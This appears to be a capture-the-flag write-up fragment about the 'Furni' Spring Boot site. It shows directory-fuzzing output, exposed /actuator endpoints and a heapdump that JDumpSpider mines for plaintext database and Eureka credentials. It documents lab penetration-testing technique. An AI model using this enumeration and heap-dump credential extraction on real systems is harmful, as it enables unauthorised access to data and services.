 Enumerated pages:

```sh
login                   [Status: 200, Size: 1550, Words: 195, Lines: 28, Duration: 2369ms]
                        [Status: 200, Size: 18854, Words: 1039, Lines: 550, Duration: 2454ms]
blog                    [Status: 200, Size: 13568, Words: 690, Lines: 399, Duration: 2518ms]
about                   [Status: 200, Size: 14351, Words: 772, Lines: 450, Duration: 2511ms]
contact                 [Status: 200, Size: 10738, Words: 578, Lines: 304, Duration: 2518ms]
services                [Status: 200, Size: 14173, Words: 774, Lines: 433, Duration: 2492ms]
register                [Status: 200, Size: 9028, Words: 1358, Lines: 255, Duration: 2629ms]
shop                    [Status: 200, Size: 12412, Words: 608, Lines: 353, Duration: 1391ms]
comment                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 262ms]
cart                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 227ms]
logout                  [Status: 200, Size: 1159, Words: 117, Lines: 21, Duration: 1348ms]
checkout                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1722ms]
error                   [Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 179ms]
[WARN] Caught keyboard interrupt (Ctrl-C)

```


Changing the word list, I have used dirsearch tool And its built in word list. And we found misconfiguration that lead us to see `/actuator` folder.
/var/www/web/Furni/src/main/resources/application.properties
```
[19:04:24] 200 -   20B  - /actuator/caches       
[19:04:24] 200 -    2B  - /actuator/info
[19:04:24] 200 -    6KB - /actuator/env
[19:04:24] 200 -   15B  - /actuator/health       
[19:04:24] 200 -  467B  - /actuator/features
[19:04:24] 200 -   54B  - /actuator/scheduledtasks
[19:04:24] 200 -    3KB - /actuator/metrics      
[19:04:24] 200 -   35KB - /actuator/mappings     
[19:04:24] 200 -   36KB - /actuator/configprops  
[19:04:25] 200 -  180KB - /actuator/conditions   
[19:04:25] 200 -  198KB - /actuator/beans
[19:04:25] 200 -   99KB - /actuator/loggers      
[19:04:25] 200 -  130KB - /actuator/threaddump   
[19:04:33] 200 -   76MB - /actuator/heapdump
```

---

# Enumeration

## Port 80 - HTTP (Apache)

```sh
java -jar ~/.opt/java/JDumpSpider/JDumpSpider-1.1-SNAPSHOT-full.jar heapdump   

password = 0sc@r190_S0l!dP@sswd                                  
driverClassName = com.mysql.cj.jdbc.Driver                
url = jdbc:mysql://localhost:3306/Furni_WebApp_DB     
username = oscar190    

OriginTrackedMapPropertySource
-------------                                   
management.endpoints.web.exposure.include = *
spring.datasource.driver-class-name = com.mysql.cj.jdbc.Driver                                   
spring.cloud.inetutils.ignoredInterfaces = enp0s.*                                               
eureka.client.service-url.defaultZone = http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/
server.forward-headers-strategy = native
spring.datasource.url = jdbc:mysql://localhost:3306/Furni_WebApp_DB                              
spring.application.name = Furni
server.port = 8082                              
```